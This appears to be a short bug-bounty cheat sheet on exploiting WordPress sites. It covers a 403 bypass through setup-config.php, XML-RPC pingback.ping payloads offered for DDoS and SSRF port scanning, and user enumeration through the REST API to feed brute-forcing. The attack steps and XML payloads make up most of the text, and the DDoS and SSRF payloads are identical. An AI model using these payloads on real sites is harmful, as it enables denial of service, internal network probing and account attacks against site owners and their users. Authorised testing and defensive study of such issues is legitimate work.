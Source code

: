 ## 1. Create database
``` 
/wp-admin with 403 status 
Bypass it using /wp-admin/setup-config.php?step=1
This will allow you to create a database
```

## 2. xmlrpc.php

This is one of the common issue on wordpress. To get some bucks with this misconfiguration you must have to exploit it fully, and have to show the impact properly as well.

## Detection
* visit site.com/xmlrpc.php
* Get the error message about POST request only
## Exploit
* Intercept the request and change the method GET to POST
* List all Methods
```
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```
* Check the pingback.ping mentod is there or not
* Perform DDOS
```
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```
* Perform SSRF (Internal PORT scan only)
```
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```
## 3. WP User Enumeration
This issue will only acceptable when target website is hiding their current users or they are not publically available. So attacker can use those user data for bruteforcing and other staff

## Detection
* visit site.com/wp-json/wp/v2/users/
* You will see json data with user info in response

